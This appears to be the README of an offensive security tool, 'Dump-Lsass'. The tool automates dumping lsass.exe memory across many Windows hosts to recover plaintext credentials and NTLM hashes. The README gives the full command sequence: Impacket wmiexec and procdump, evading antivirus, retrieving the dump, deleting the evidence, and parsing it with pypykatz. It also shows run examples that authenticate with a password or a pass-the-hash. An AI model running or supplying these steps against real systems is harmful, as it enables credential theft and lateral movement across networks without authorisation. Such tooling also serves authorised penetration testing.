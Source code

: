 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems. After dumping lsass, you should have an lsass.dmp file and a plaintext file with mimikatz (pypykatz) output for each host in the same directory 

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit

pypykatz lsa minidump lsass.dmp
```
That's a very manual and time-consuming process when multiplied by many target hosts.

Prerequisites: Procdump64.exe must be in the same directory as the script, impacket at path /opt/impacket, smbclient, pypykatz.


To install prereqs:

Download procdump64.exe to the same directory as the script.

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket

cd /opt/impacket && pip install -r requirements.txt && python setup.py install

apt install -y smbclient

Install pypykatz from Github, do not install using pip: https://github.com/skelsec/pypykatz

Run examples:
```
python3 dump-lsass.py -d CONTOSO -u administrator -p Passw0rd\! -f </path/to/file with target IP addresses or hostnames.txt>
python3 dump-lsass.py -d CONTOSO -u administrator -H <NT Hash> -f </path/to/file with target IP addresses or hostnames.txt>
```

If pypykatz is unable to dump creds from the dump files, your target is most likely running a recent Windows build which pypykatz and mimikatz no longer works.
